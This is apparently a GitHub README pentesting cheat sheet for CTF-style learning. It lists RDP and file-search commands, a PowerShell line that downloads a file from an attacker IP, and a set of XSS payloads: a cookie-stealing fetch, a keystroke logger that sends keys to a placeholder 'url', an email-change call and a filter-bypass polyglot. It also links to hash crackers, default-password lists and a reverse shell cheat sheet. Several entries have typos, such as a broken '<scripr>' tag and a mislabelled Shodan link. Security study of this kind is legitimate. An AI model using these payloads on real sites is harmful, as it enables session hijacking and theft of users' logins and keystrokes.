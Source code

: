  <h1 align='center'> Penetration time</h1>

<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!-->
</ol>

<h2 align='center' id='n1'><em>Commands</em></h2> 
<h3>Remote Desktop Protocol (rdp)</h3>
  <code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;MACHINE_IP> /u:&lt;User> /p:&lt;'Password'></code>
  <p><code>xfreerdp /v:&lt;IP> /u:&lt;Username> /p:&lt;Password> +clipboard<></code>
	
<h3>To get stable shell from unstable from PowerShell</h3>
  <code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;IP>:&lt;PORT>/&lt;filename>' -OutFile 'C:\Windows\Temp\&lt;filename>'"</code>
  
<h3>Commands to find in:</h3>
<h4>Linux</h4>
	<p> <code>find / -type f</code> - Find all files in / directory
	<p> <code>find / -type f | grep 'flag'</code> - Find all files with 'flag' in file name
	<p> <code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code> - Find all path files with ‘config’ 

<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <code><script>alert('Success XSS!');</script></code>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <code><script>user.changeEmail('your@email.com');</script></code>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Very useful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: <code>crunch 3 3 12345qwerty -o cranch.txt</code>.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and <p><code>python3 username_generator.py -h</code> shows the tool's help message and optional arguments.
	</ol>
